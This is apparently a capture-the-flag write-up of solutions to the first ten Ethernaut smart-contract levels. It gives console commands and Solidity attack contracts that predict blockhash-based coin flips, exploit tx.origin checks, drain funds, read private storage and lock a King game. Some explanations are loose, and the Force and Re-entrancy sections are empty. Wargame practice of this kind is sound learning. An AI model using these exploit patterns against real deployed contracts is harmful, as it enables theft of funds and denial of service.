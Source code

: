 # 1. Hello Ethernaut
The instructions ask to call the `info()` method
```
contract.info()
```
We follow the output and call:
```
contract.info1()
```
Then...
```
contract.info2()
```
To get `infoNum`, we call its public getter
```
contract.infoNum()
```
`infoNum()` returns `42` as a BigNumber, so we call `info42()`
```
contract.info42()
```
Following the output again
```
contract.theMethodName()
```
Then...
```
contract.method7123949()
```
To know what is the password, we inspect the contract's ABI
```
contract
```
We call the method `password()`
```
contract.password()
```
We finally pass the output to the `authenticate()` method
```
contract.authenticate("ethernaut0")
```

# 2. Fallback
First of all we need to send the contract an amount that is less than `0.001 ether` in order to make a contribution
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})
```
Afterwards, we send another non-zero amount to become an owner (received by the function `receive()`)
```
contract.sendTransaction({from: player, value: toWei(0.0000001)})
```
We can now withdraw all of the contract's balance using `withdraw()`
```
contract.withdraw()
```

# 3. Fallout
In older Solidity versions, the constructor used to defined with the contract's name.  
So, to claim ownership we call the constructor which is named by mistake `fal1out()` instead of `fallout()` 
```
contract.Fal1out()
```

# 4. Coin Flip
In order to guess the right side, we need to implement the same coin flip generation code then pass the result to the `guess()` function.  
The block time is long enough that the `block.number` doesn't change between function calls.
```Solidity
contract Hack {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function _guess() public view returns(bool){
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    return side;
    
    }

    function attack(address _victim) external {
        bool guess = _guess();
        ICoinFlip(_victim).flip(guess);
    }

}
```


# 5. Telephone
In order to claim ownership, we need to call the `changeOwner()` method using an intermediate contract. This way, the `tx.origin` is going to be `player` and the `msg.sender` is going to be the address of the intermediate contract `Hack`.
```
contract Hack {

    function attack(address _victim) external {
        ITelephone(_victim).changeOwner(msg.sender);
    }

}
```

# 6. Token
To increase our balance we use the `transfer()` method.  
However, in order to get the maximum of tokens, we need to ensure that our balance is equal to the maximum value of `uint256`. 
In order to get this value, we substract the amount we already have to prevent an overflow.
```
tokenContract.transfer(msg.sender, type(uint).max - tokenContract.balanceOf(msg.sender)); 
```

# 7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```


# 8. Force



# 9. Vault
```
web3.eth.getStorageAt(instance, "1")
```

# 10. King
This level consists of a game to claim the King title. Our aim is to break it.  
We notice that the previous king receives `msg.value` using `transfer()` and that the `msg.sender` becomes the king once the transfer is succeeded. But what if this previous king couldn't receive any ether?  
So, in order to break the game, we need to make a contract that can't receive ether, in other words, it doesn't implement a `receive()` nor a `fallabck()` function.
```
contract Hack{
    address public victim;

    constructor(address _victim){
        victim = _victim;
    }

    function attack() public payable{
        (bool success,) = payable(victim).call{value: msg.value}("");
        require(success);
    }

}
```

# 11. Re-entrancy

